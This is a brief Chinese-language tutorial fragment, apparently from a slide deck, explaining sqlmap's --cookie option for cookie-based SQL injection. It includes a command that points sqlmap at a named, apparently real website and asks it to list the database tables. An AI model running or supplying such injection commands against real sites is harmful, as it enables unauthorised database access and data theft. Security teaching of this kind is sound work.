

# --cookie
适用于cookie注入

将参加加入cookie注入测试
sqlmap -u "http://www.ntjx.org/jsj/DownloadShow.asp" --cookie "id=9" --table --level 2